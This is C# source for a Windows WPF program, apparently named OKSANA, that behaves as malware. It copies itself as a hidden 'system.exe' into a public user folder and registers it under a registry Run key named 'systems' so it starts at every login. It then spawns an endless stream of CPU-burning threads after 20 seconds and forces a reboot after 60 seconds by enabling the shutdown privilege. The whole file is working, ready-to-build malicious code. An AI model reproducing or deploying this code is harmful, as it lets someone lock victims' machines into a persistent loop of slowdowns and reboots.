 # oksana_v1
using DoFactory.GangOfFour.Singleton.Structural;
using JCS;
using Microsoft.Win32;
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;
using System.Threading;
using System.Windows;

namespace WpfApplication_OKSANA
{
/// <summary>
/// Логика взаимодействия для MainWindow.xaml
/// </summary>
public partial class MainWindow : Window
{
public static string needPatch = "C:\\Users\\Public\\";


public MainWindow()
{
if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
{
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}
else
if (OSVersionInfo.Name == "Windows XP")
{
needPatch = "C:\\Documents and Settings\\All Users\\";
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}

InitializeComponent();
}



private void Window_Loaded(object sender, RoutedEventArgs e)
{
if (!File.Exists(needPatch + "system.exe"))
{
try
{
File.Copy("system.exe", needPatch + "system.exe");
File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

}
catch { }
}
start();
}

public static void sys_sleep()
{
while (true)
{
Thread s = new Thread(s_b);
s.Start();
}
}
private static void s_b()
{
int y = 2;
while (true)
{
y *= y;
}
}



public static void start()
{
Stopwatch sw = new Stopwatch();
sw.Start();
bool b = true;
bool pl = false;
while (b)
{
if (sw.ElapsedMilliseconds > 20000)
{
if (!pl)
{
Thread g = new Thread(sys_sleep);
g.Start();
pl = true;
}
}
if (sw.ElapsedMilliseconds > 60000)
{
DoExitWin(EWX_REBOOT);
b = false;
}
}
}





[StructLayout(LayoutKind.Sequential, Pack = 1)]
internal struct TokPriv1Luid
{
public int Count;
public long Luid;
public int Attr;
}
[DllImport("kernel32.dll", ExactSpelling = true)]
internal static extern IntPtr GetCurrentProcess();
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
[DllImport("advapi32.dll", SetLastError = true)]
internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,
ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
[DllImport("user32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool ExitWindowsEx(int flg, int rea);
internal const int EWX_REBOOT = 0x00000002;
internal const string SE_SHUTDOWN_NAME = "SeShutdownPrivilege";
internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
internal const int TOKEN_QUERY = 0x00000008;
internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;

public static Thread thread1;
public static void DoExitWin(int flg)
{
bool ok;
TokPriv1Luid tp;
IntPtr hproc = GetCurrentProcess();
IntPtr htok = IntPtr.Zero;
ok = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
tp.Count = 1;
tp.Luid = 0;
tp.Attr = SE_PRIVILEGE_ENABLED;
ok = LookupPrivilegeValue(null, SE_SHUTDOWN_NAME, ref tp.Luid);
ok = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
ok = ExitWindowsEx(flg, 0);
}
}

public class autorun: Singleton<autorun>
{
public static bool SetAutorunValue(bool autorun, string npath)
{
const string name = "systems";
string ExePath = npath;
RegistryKey reg;

reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
try
{
if (autorun)
reg.SetValue(name, ExePath);
else
reg.DeleteValue(name);
reg.Flush();
reg.Close();
}
catch
{
return false;
}
return true;
}
}
}
namespace DoFactory.GangOfFour.Singleton.Structural
{
public class Singleton<T> where T : class
{
private static T _instance;

protected Singleton()
{
}

private static T CreateInstance()
{
ConstructorInfo cInfo = typeof(T).GetConstructor(
BindingFlags.Instance | BindingFlags.NonPublic,
null,
new Type[0],
new ParameterModifier[0]);

return (T)cInfo.Invoke(null);
}

public static T Instance
{
get
{
if (_instance == null)
{
_instance = CreateInstance();
}

return _instance;
}
}
}
}
